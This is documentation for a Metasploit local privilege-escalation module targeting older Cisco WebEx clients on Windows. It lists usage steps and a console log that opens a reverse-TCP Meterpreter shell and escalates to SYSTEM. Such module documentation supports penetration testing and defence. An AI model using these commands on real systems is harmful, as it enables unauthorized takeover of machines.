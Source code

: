 ## Description

  This module gets an elevated session with System privileges by exploiting a remote code execution vulnerability found
  in Cisco's WebEx client software for versions below v33.6.0.655.

## Vulnerable Application

  Cisco WebEx v33.3.8.7 and below

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a session
  4. Do: ```use exploit/windows/local/webexec```
  5. Do: ```set SESSION <session>```
  6. Do: ```run```
  7. You should get an elevated session.

## Scenarios

### Tested on Cisco WebEx v33.3.8.7 on Windows 7 x64 and x86

  ```

  msf5 > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.136
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.136:49161) at 2018-10-24 09:41:47 -0500

  meterpreter > getuid
  Server username: WIN-MGMN7ND70I1\a_user
  meterpreter > background
  [*] Backgrounding session 1...
  msf5 exploit(multi/handler) > use exploit/windows/local/webexec 
  msf5 exploit(windows/local/webexec) > set session 1
  session => 1
  msf5 exploit(windows/local/webexec) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/local/webexec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(windows/local/webexec) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Checking service exists...
  [*] Writing 73802 bytes to %SystemRoot%\Temp\Ak4U78kG.exe...
  [*] Launching service...
  [*] Sending stage (179779 bytes) to 192.168.37.136
  [*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.136:49162) at 2018-10-24 09:42:35 -0500
  [*] Service started...

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > 

  ```
